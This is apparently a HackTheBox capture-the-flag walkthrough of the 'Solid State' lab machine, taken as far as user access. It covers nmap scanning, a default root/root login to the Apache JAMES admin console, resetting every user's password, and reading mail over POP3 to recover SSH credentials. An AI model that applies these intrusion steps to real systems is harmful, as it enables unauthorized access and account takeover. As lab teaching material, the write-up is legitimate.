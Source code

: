 ```yaml
---
layout: post
title: "HackTheBox: Solid State Boot2User"
description: "hackthebox solid state walkthrough"
thumb_image: "TODO"
tags: [web, ctf, overthewire]
permalink: /posts/SolidState
---
```


## Enumeration
We'll start off with nmap scans.

My methodology on networks that we have good access to is to initially do a SYN scan of all ports and then do more thorough scanning of those we find to be open. It's good practice to keep an eye on this initial scanning, if we see it's running slowly it may be that we're tripping a firewall.

So we start off with a SYN scan (-sS), of all ports (-p-), there's no DNS in this environment so let's turn off name resolution (-n), and save output in all formats with the filename "allports" (-oA allports).

nmap -n -p- -sS -oA allports 10.10.10.51:

```
# Nmap 7.60 scan initiated Mon May 28 02:40:13 2018 as: nmap -n -p- -sS -oA allports 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.066s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip

# Nmap done at Mon May 28 02:40:55 2018 -- 1 IP address (1 host up) scanned in 41.72 seconds
```

Now let's enumerate these open ports (-p 22, 25, 80, 110, 119, 455) using service detection (-sV) and default scripts (-sC), saving all outputs with the filename "thorough" (-oA thorough) and with name resolution still off (-n):

```
# Nmap 7.60 scan initiated Mon May 28 02:42:30 2018 as: nmap -p 22,25,80,110,119,4555 -sC -sV -oA thorough -n 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.065s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (EdDSA)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.11 [10.10.14.11]),
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2

# Nmap done at Mon May 28 02:42:57 2018 -- 1 IP address (1 host up) scanned in 26.92 seconds
```

So we have 6 ports open. From the service detection results it appears we have a mail server, running apache JAMES. Time to work out a plan of attack.

**Port 22** is showing a reasonably modern SSH service, this will be our lowest priority to look at.

**Port 25** is SMTP, we could see if [SMTP enumeration](https://pentestlab.blog/2012/11/20/smtp-user-enumeration/) is a possibility, this is a medium priority.

**Port 80** is HTTP, having a quick look in a browser it looks like a basic web app, definitely something we'll want to check out, we'll note this down as a high priority and start nikto scanning in the background.

**Port 110** is POP3, but we don't have any credentials, once again a low priority at the moment.

**Port 119** is NNTP, quick google indicates it's something to do with usenet, we'll say it's a low priority for now.

**Port 4555** is remote admin for JAMES. Sirens should be going off when see the words remote and admin. Let's make this our top priority.

## Poking at Remote Admin
Connecting to the port with netcat ```nc -nv 10.10.10.51 4555``` we're prompted for a username and password.

Trying admin/admin kicks us back to the start of the prompt where we can immediately try again. It doesn't appear that there are cooldowns on repeated attempts so we can probably script a bruteforcer if we get stuck.

Let's quickly try the obvious candidates first, root/password, admin/password etc. We don't have to try for long as root/root grants us access!

```
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

Help gives us a list of commands:

```
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

"Display existing accounts" sounds like the sort of thing we'd be interested in, and while we're at it let's change the password for each user to be their username:

```
countusers
Existing accounts 5

listusers
user: james
user: thomas
user: john
user: mindy
user: mailadmin

setpassword james james
Password for james reset

setpassword thomas thomas
Password for thomas reset

setpassword john john
Password for john reset

setpassword mindy mindy
Password for mindy reset

setpassword mailadmin
Password for mailadmin reset
```

So we now have username and passwords for a bunch of users. That POP3 port that we didn't have credentials for might make itself useful after all!

We can telnet to port 110 ```telnet 10.10.10.51 110```. POP3 is an extremely simple protocol to interact with. From the [RFC](https://www.ietf.org/rfc/rfc1939.txt) our commands are:


      Minimal POP3 Commands:

         USER name               valid in the AUTHORIZATION state
         PASS string
         QUIT
         STAT                    valid in the TRANSACTION state
         LIST [msg]
         RETR msg
         DELE msg
         NOOP
         RSET
         QUIT

Logging in with each user and checking for email, we find for Mindy:

```
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

## Shell

To get a user shell we can simply log in via SSH using the credentials given in the email. From here we can cat the user flag.

Halfway there. Stay tuned for part two where we get full root credentials.

## Notes

Guessing the default creds for the remote admin tool was pure luck, a sensible next step would have been searching for JAMES exploits. ```searchsploit apache james``` shows us a python exploit https://www.exploit-db.com/exploits/35513/ We did't have the requisite authenticated user at that moment, but reading through the exploit would have also given us the default creds "root" "root".
